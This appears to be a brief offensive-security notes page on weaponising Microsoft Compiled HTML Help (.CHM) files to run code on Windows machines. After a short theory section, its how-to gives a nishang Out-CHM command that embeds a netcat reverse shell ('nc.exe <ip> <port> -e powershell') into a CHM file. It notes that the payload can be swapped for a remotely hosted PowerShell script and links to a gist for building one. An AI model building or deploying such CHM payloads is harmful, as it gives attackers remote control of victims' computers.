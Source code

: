 ## Theory

 “Microsoft Compiled HTML Help” is a Microsoft proprietary online help format that consists of a collection of HTML pages, indexing and other navigation tools. These files are compressed and deployed in a binary format with an extension of .CHM (compiled HTML).

Check Point researcher Liad Mizrachi has conducted research showing that .chm files can be used to execute code on a victim computer running Microsoft Windows Vista, and higher.

## How to

- There are some powershell script in nishang:

1. import nishang powershell script

2. Example with netcat imported to spawn a reverse shell : `Out-CHM -Payload "C:\temp\nc.exe <ip> <port> -e powershell" -HHCPath 'C:\Program Files (x86)\HTML Help Workshop'` 
3. You can replace -Payload by -PayloadURL where you have stored a ps1 for example.


## Do it yourself

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7